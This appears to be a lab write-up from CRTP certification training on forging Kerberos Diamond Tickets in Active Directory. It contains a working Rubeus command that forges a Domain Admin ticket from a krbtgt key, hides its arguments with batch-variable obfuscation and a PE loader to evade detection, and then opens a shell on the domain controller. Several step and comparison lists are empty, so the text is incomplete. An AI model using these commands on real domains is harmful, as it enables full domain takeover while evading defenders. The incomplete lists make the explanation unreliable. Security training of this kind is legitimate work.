

CRTP - Certified Red Team Professional
Diamond Ticket
Diamond tickets are a variant of forged Kerberos tickets that can be used to gain privileged access to services in an Active Directory domain in a stealthy manner.
The main differences between Silver and Diamond tickets are:
Here are the steps to forge a Diamond Ticket:
1. Obtain the AES256 key of the krbtgt account:
1. Request a legitimate TGT:
1. Decrypt the TGT:
1. Modify the PAC:
1. Recalculate the signatures:
1. Re-encrypt the ticket:
1. Use the Diamond Ticket:
Some OPSEC advantages of Diamond tickets over Golden tickets include:
To abuse a Diamond Ticket, you do not necessarily need to be a Domain Admin privileged user. However, you do need to have access to the AES256 key of the KRBTGT account, which is typically only accessible to Domain Admins or those who have compromised a domain controller.
Diamond Ticket With Rubeus
For this demonstration, I’ll be using Rubeus commands. I’ll also be focus on OPSEC care by using PELoader.exe and ArgSplit.exe to encode the arguments.
Executing ArgSplit.bat for argument encode and copy/paste the result to CMD.
diamond
set "z=d"
set "y=n"
set "x=o"
set "w=m"
set "v=a"
set "u=i"
set "t=d"
set "Pwn=%t%%u%%v%%w%%x%%y%%z%"C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /tgtdeleg /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt

As we can we were able to forge a Diamond Ticket and we can use it by accessing Domain Controller with WinRS.
winrs -r:dcordp-dc cmd
Diamond Tickets are really straightforward and we can see that if we do have all proper information for the attack we get a new session as Domain Admin.